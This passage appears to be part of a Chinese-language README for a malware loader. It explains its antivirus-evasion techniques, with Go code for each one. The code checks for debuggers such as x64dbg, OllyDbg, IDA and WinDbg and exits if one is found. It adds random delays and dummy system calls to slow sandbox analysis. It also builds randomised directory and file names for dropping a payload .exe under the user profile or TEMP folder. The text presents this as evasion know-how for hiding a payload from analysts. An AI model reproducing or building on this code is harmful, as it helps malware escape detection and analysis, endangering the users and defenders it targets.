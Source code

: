 ## 🛡️ 免杀技术详解

### 1. 反调试检测

```go
func checkEnvironment() bool {
    // 检查调试器进程
    debuggerProcs := []string{"x64dbg", "ollydbg", "ida", "windbg"}
    for _, proc := range debuggerProcs {
        if _, err := exec.LookPath(proc); err == nil {
            return false  // 发现调试器，退出
        }
    }
    return true
}
```

**检测原理**：
- 通过`exec.LookPath`检查系统PATH中是否存在调试器
- 支持检测主流调试器：x64dbg、OllyDbg、IDA Pro、WinDbg
- 发现调试器立即退出，避免被分析

### 2. 行为模拟

```go
func normalBehavior() {
    // 随机延迟，模拟正常程序启动
    time.Sleep(time.Duration(100+generateRandomDelay()) * time.Millisecond)
    
    // 执行正常的系统调用
    os.Getwd()
    os.Getenv("PATH")
}
```

**目的**：
- 模拟正常程序的启动行为
- 增加沙箱分析的时间成本
- 避免异常的即时执行特征

### 3. 动态路径生成

#### 路径生成算法

```go
// 获取环境变量
userProfile := os.Getenv("USERPROFILE")
if userProfile == "" {
    userProfile = os.Getenv("TEMP")
}

// 生成随机组件
randomDir, _ := generateRandomString(6)   // 6位目录名
randomName, _ := generateRandomString(8)  // 8位文件名

// 构建完整路径
payloadDir := filepath.Join(userProfile, randomDir)
payloadPath := filepath.Join(payloadDir, randomName+".exe")
```
